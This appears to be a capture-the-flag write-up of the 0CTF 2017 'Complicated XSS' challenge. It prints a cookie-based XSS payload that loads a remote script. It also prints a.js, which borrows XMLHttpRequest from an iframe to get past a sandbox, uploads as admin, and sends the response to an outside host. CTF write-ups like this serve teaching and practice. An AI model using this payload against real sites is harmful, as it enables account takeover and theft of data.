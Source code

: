 +++
date = "2017-03-20T10:14:18-07:00"
title = "0CTF 2017 - Complicated XSS"
tags = ["CTF", "Web", "XSS"]
+++

Cookie Monster...

<!--more-->

# Problem

> Does this look familiar?  
> http://government.vip/
> <hr />
> XSS Book
>
> The flag is in http://admin.government.vip:8000  
> Bruteforce and scanning are not needed!  
> Admin will be hit by your payload

# Solution

Login to admin page with pre-populated test account, we can see there are two cookies: `username` and `session`, and the
page says "only admin can upload shell".  Seems like we need to XSS admin to upload something.  The `session` cookie is
an HTTP cookie that cannot be accessed by script.  The `username` cookie however, is an XSS point.  Server reads `username`
cookie content and displayed it as raw HTML.

Now comes the tricky part: in the document header of admin page, some core component is stripped out.  Making AJAX call
will fail since there's no `XMLHttpRequest`.  I also tried [Fetch API][1] which works locally but server's browser
doesn't support it.

```html
<script>
//sandbox
delete window.Function;
delete window.eval;
delete window.alert;
delete window.XMLHttpRequest;
delete window.Proxy;
delete window.Image;
delete window.postMessage;
</script>
```

Poking around and I found out that the embedded `iframe` element still have `XMLHttpRequest`.

Another trick that blocked me for quite a while is that the admin page only renders upload form if `username` cookie is
"admin".  So we need to reset cookie and fetch admin page again to see what parameters are needed for upload.
Otherwise, it keeps hitting `400: bad request`.

```html
<h1>Hello admin</h1>

<p>Upload your shell</p>
<form action="/upload" method="post" enctype="multipart/form-data">
<p><input type="file" name="file"></input></p>
<p><input type="submit" value="upload">
</form>
```

Here's the XSS payload.

```javascript
document.cookie="username=<iframe></iframe><script src='http://.../a.js'></script>;path=/;domain=.government.vip";
window.location="http://admin.government.vip:8000";
```

a.js

```javascript
document.cookie="username=admin";

var xhr = new frames[0].XMLHttpRequest;
xhr.onreadystatechange = function() {
  if (xhr.readyState === 4) {
    var result = xhr.responseText;
    result += ",";
    result += xhr.status;
    result += ",";
    result += xhr.getAllResponseHeaders();
    window.location="http://.../?a=" + btoa(result);
  }
}

xhr.open('POST', '/upload', true);

var fblob = new Blob(["any content here"]);
var formData = new FormData();
formData.append("file", fblob);

xhr.send(formData);
```

Decoded response:

```
flag{xss_is_fun_2333333},200,Server: TornadoServer/4.4.2
Content-Length: 24
Content-Type: text/html; charset=utf-8
```

[1]: https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API
